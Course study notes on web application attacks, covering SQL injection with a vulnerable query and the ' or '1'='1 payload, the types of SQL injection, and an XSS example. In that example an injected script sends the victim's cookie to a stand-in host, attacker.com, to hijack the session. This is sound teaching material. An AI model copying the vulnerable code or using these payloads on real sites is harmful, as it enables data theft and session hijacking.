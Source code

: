 #### Example Attacks [PDF Link](Chapter_3_WAS.pdf#page=69)
- _Scenario #1:_ An application uses untrusted data in the construction of the following vulnerable SQL call:
``` SQL
String query = “SELECT * FROM accounts WHERE custID=‘” + request.getParameter(“id”) + “’”;
```
- _Result_:  
``` SQL
SELECT * FROM accounts WHERE custID=‘’ or ‘1’=‘1’
```

##### Illustrated 
![[Pasted image 20230115140235.png]]

#### SQL Injection Types [PDF Link](Chapter_3_WAS.pdf#page=71)
1. __In-band__ SQL Injection
	- attacker uses the same channel of communication to launch their attacks and to gather their results
		- _error-based_: the attacker performs actions that cause the database to produce error messages and potentially uses the data provided by these error messages to gather information about the structure of the database
		- _union-based_: takes advantage of the UNION SQL operator, which fuses multiple select statements generated by the database to get a single HTTP response; this response may contain data that can be leveraged by the attacker
1. __Blind__ (Inferential) SQL Injection
	- attacker sends data to the server and observes the response and behavior of the server to learn more about its structure
2. __Out-of-band__ SQL Injection
	- certain features must be enabled on the database server
	- performed when the attacker can’t use the same channel to launch the attack and gather information, or when a server is too slow or unstable for these actions to be performed
#### Cross-Site Scripting (XSS) [PDF Link](Chapter_3_WAS.pdf#page=73)
##### Example Attack
The application uses untrusted data in the construction of the following HTML snippet _without validation or escaping_:
``` Javascript
(String) page += "input name= 'creditcard' 
	type= 'TEXT'
	value=' + request.getParameter ("CC" ) 
	+ "'>";
```
The attacker _modifies the ‘CC’ parameter_ in his browser to: 
``` Javascript
'script>document.location=
	'http://www.attacker.com/cgi-bin/cookie.cgi
	?foo='+document.cookie‹/script>'
```
_Result_: 
``` Javascript
(String) page += "input name= 'creditcard' 
	type= 'TEXT'
	value=\'><script>document.location=
	'http://www.attacker.com/cgi-bin/cookie.cgi
	?foo='+document.cookie</script›'">";
```
Causes the _victim’s session ID to be sent to the attacker’s_ web-site, allowing attacker to _hijack the user’s current session_

